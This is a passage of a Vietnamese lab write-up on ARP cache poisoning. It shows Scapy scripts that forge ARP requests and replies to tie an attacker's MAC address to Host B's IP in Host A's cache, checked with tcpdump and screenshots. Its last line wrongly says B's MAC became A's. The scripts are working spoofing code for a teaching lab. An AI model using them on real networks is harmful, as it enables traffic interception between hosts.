 - Bây giờ ta kiểm tra lại ARP cache tại terminal Host A thì thấy địa chỉ MAC của B bây giờ đã trở thành địa chỉ MAC của attacker. 

![](https://i.imgur.com/3sctXdw.png)

Vậy là chúng ta đã thành công trong cuộc tấn công ARP cache bằng APR request .

**2. Task 1B** : Đề yêu cầu xây dựng ARP reply có thể ánh xạ địa chỉ MAC của attacker với địa chỉ IP của Host B. Sau đó gửi đến A và kiểm tra kết quả. 

- IP của B đã có trong ARP cache của A :
    - Đầu tiên ta ta thực hiện một đoạn code ARP request tương tự như trên với địa chỉ IP nguồn và MAC nguồn là của B và gửi đến A để cho ARP cache lưu trữ thông tin.
    
    ```python=
    #!/usr/bin/python3
    from scapy.all import *

    E = Ether(src = '02:42:0a:09:00:69', dst = '02:42:0a:09:00:05')

    A = ARP(op=1, hwsrc='02:42:0a:09:00:06',psrc='10.9.0.6',hwdst='02:42:0a:09:00:05', pdst='10.9.0.5')

    pkt = E/A
    pkt.show()
    sendp(pkt)
    ```
    
    -   Bây giờ kiểm tra lại ARP cache ta thấy địa chỉ IP và MAC của B được lưu là chính xác 
    
    ![](https://i.imgur.com/7X7f8ZR.png)

    -Tiếp đến ta thực hiện gửi một ARP reply từ terminal attacker với thông tin MAC của attacker gán với địa chỉ của Host B với đoạn code như sau 
    
    ```python=
    #!/usr/bin/python3
    from scapy.all import *

    E = Ether(src = '02:42:0a:09:00:69',dst = '02:42:0a:09:00:05')
    A = ARP(op=2 ,hwsrc='02:42:0a:09:00:69',psrc='10.9.0.6',hwdst='02:42:0a:09:00:05', pdst='10.9.0.5')
    pkt = E/A
    pkt.show()
    sendp(pkt)
    ```
    Ta thấy đã thực hiện gửi đi thành công.
    
    ![](https://i.imgur.com/NTHoEg3.png)

    
    - Phía terminal A thì thực hiện lệnh `tcpdump -i eth0 -n` để kiểm tra traffic thì thấy có một ARP reply với IP của Host B và MAC thì của attacker.
    
    ![](https://i.imgur.com/7csMNJz.png)

    - Bây giờ ta kiểm tra ARP cache của A thì thấy địa chỉ MAC của B đã thay đổi thành địa chỉ MAC của A
